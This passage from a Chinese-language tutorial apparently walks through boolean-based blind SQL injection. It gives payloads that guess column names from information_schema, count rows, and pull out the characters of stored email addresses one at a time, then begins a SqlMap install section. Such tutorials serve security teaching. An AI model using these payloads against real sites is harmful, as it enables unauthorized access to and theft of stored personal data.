 ![](http://upload-images.jianshu.io/upload_images/118142-83611bd7189b880a.jpg)

之后爆破每个字符：

```
1 and (select substr(column_name,$1,1) from information_schema.columns where table_name='email' limit 1,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。

![](http://upload-images.jianshu.io/upload_images/118142-b0cdf2a93255aa5e.jpg)

结果是`email`。

## 查询行数量

```
1 and (select count(1) from email)=?
```

问号处替换为从一开始的数字。我们可以看到，数量为 2。

![](http://upload-images.jianshu.io/upload_images/118142-5af57e4f3fdad21d.jpg)

## 查询记录

我们这里演示如何查询第一条记录的`email`列。

首先是长度：

```
1 and (select length(email) from email limit 0,1)=?
```

问号处替换为从一开始的数字。我们可以看到，长度为 17。

![](http://upload-images.jianshu.io/upload_images/118142-e48ff0d2979531e3.jpg)

之后爆破每个字符：

```
1 and (select substr(email,$1,1) from email limit 0,1)=$2
```

`$1`配置为 1 ~ 17的整数，`$2`的配置为所有可见字符的十六进制 ascll 值（0x20 ~ 0x7e）。

这个时间有些长，就不演示了。

## SqlMap

### 下载

安装 Python 之后，执行

```
pip install sqlmap
```
